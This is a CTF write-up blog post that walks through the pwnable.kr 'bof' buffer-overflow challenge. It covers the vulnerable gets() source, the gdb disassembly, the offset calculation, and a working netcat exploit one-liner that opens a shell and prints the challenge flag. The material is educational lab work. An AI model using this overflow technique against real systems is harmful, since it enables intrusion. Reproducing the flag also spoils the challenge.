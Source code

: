 ```yaml
---
layout:     post
title:      "Pwnable.kr - bof"
date:       2017-11-25 8:00:00
author:     "W3ndige"
permalink: /:title/
category: 'Write-Ups'
---
```


Another challenge from [pwnable.kr](http://pwnable.kr "pwnable.kr") will show us how to perform a simple buffer overflow attack.

{% highlight text %}
Nana told me that buffer overflow is one of the most common software vulnerability.
Is that true?
{% endhighlight %}

This time we're going to download the source code and the binary from the webpage. After that we're ready to analyze whatever this challenge brings to us.

{% highlight c %}
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
{% endhighlight %}

Firstly, we can see that this application is vulnerable to overflow, since `gets()` function won't cut the characters after the buffer. Let's see man pages.

{% highlight text %}
Never use gets().  Because it is impossible to tell without knowing the
data  in  advance  how  many  characters  gets() will read, and because
gets() will continue to store characters past the end of the buffer, it
is  extremely  dangerous  to  use.   It has been used to break computer
security.  Use fgets() instead.
{% endhighlight %}

Since the best way to execute `/bin/sh` is to make the the comparision ***true***, we will have to overflow the buffer, and change the value of the `key` parameter. Game plan is to find out the address of the `key`, and then the address of
`overflowme`. This will allow us to calculate the offset between those 2 addresses, resulting in the number of trash data that has to be put into the buffer.

Let's fire up ***gdb***, and disassemble `main()` function.

{% highlight bash %}
w3ndige@main ~ % gdb ./bof

(gdb) disas main
Dump of assembler code for function main:
   0x0000068a <+0>:	push   %ebp
   0x0000068b <+1>:	mov    %esp,%ebp
   0x0000068d <+3>:	and    $0xfffffff0,%esp
   0x00000690 <+6>:	sub    $0x10,%esp
   0x00000693 <+9>:	movl   $0xdeadbeef,(%esp)
   0x0000069a <+16>:	call   0x62c <func>
   0x0000069f <+21>:	mov    $0x0,%eax
   0x000006a4 <+26>:	leave
   0x000006a5 <+27>:	ret
End of assembler dump.
{% endhighlight %}

Here we can see that at `main+9` the ***0xdeadbeef*** is moved into the ***esp***. In order to find the address of this variable we will have to set up breakpoint at `main+16`, and view the content of ***stack pointer***.

{% highlight bash %}
(gdb) break *main+16
Breakpoint 1 at 0x69a
(gdb) run
Starting program: /home/w3ndige/programming/pwnable.kr/bof

Breakpoint 1, 0x5655569a in main ()
(gdb) x/x $esp
0xffffd180:	0xdeadbeef
{% endhighlight %}

Great, we have it! Now we have to find the address of `overflowme` buffer, which lays in the `func` function. Let's disassemble it.

{% highlight bash %}
(gdb) disas func
Dump of assembler code for function func:
   0x0000062c <+0>:	push   ebp
   0x0000062d <+1>:	mov    ebp,esp
   0x0000062f <+3>:	sub    esp,0x48
   0x00000632 <+6>:	mov    eax,gs:0x14
   0x00000638 <+12>:	mov    DWORD PTR [ebp-0xc],eax
   0x0000063b <+15>:	xor    eax,eax
   0x0000063d <+17>:	mov    DWORD PTR [esp],0x78c
   0x00000644 <+24>:	call   0x645 <func+25>
   0x00000649 <+29>:	lea    eax,[ebp-0x2c]
   0x0000064c <+32>:	mov    DWORD PTR [esp],eax
   0x0000064f <+35>:	call   0x650 <func+36>
   0x00000654 <+40>:	cmp    DWORD PTR [ebp+0x8],0xcafebabe
   0x0000065b <+47>:	jne    0x66b <func+63>
   0x0000065d <+49>:	mov    DWORD PTR [esp],0x79b
   0x00000664 <+56>:	call   0x665 <func+57>
   0x00000669 <+61>:	jmp    0x677 <func+75>
   0x0000066b <+63>:	mov    DWORD PTR [esp],0x7a3
   0x00000672 <+70>:	call   0x673 <func+71>
   0x00000677 <+75>:	mov    eax,DWORD PTR [ebp-0xc]
   0x0000067a <+78>:	xor    eax,DWORD PTR gs:0x14
   0x00000681 <+85>:	je     0x688 <func+92>
   0x00000683 <+87>:	call   0x684 <func+88>
   0x00000688 <+92>:	leave
   0x00000689 <+93>:	ret
End of assembler dump.
{% endhighlight %}

Since we know that local variables are on the negative size of ***ebp*** ([read more](https://www.cs.virginia.edu/~evans/cs216/guides/x86.html "read more")), we can guess that `ebp-0x2c` is the address of `overflowme` variable. Let's set another breakpoint at `gets` and find out if it's true.

{% highlight bash %}
(gdb) break gets
Breakpoint 2 at 0xf7e3b915
(gdb) c
Continuing.
overflow me :

Breakpoint 2, 0xf7e3b915 in gets () from /usr/lib32/libc.so.6
(gdb) next
Single stepping until exit from function gets,
which has no line number information.
helloworld
0x56555654 in func ()
(gdb) x/1s $ebp -0x2c
0xffffd14c:	"helloworld"
{% endhighlight %}

Now we're ready to calculate the offset between those two addresses.

{% highlight python %}
>>> 0xffffd180 - 0xffffd14c
52
{% endhighlight %}

Ready to exploit?

{% highlight bash %}
w3ndige@main ~ % (python2 -c "print 52*'A'+'\xbe\xba\xfe\xca'";cat) | nc pwnable.kr 9000
whoami
bof
ls -la
total 25060
drwxr-x---  3 root bof      4096 Oct 23  2016 .
drwxr-xr-x 80 root root     4096 Jan 11  2017 ..
d---------  2 root root     4096 Jun 12  2014 .bash_history
-r-xr-x---  1 root bof      7348 Sep 12  2016 bof
-rw-r--r--  1 root root      308 Oct 23  2016 bof.c
-r--r-----  1 root bof        32 Jun 11  2014 flag
-rw-------  1 root root 25626087 Nov 23 11:33 log
-rw-r--r--  1 root root        0 Oct 23  2016 log2
-rwx------  1 root root      760 Sep 10  2014 super.pl
cat flag
daddy, I just pwned a buFFer :)
{% endhighlight %}

By printing 52 ***A*** letters and the number used in comparision (stored in ***little endian format***), we were able to exploit this application.
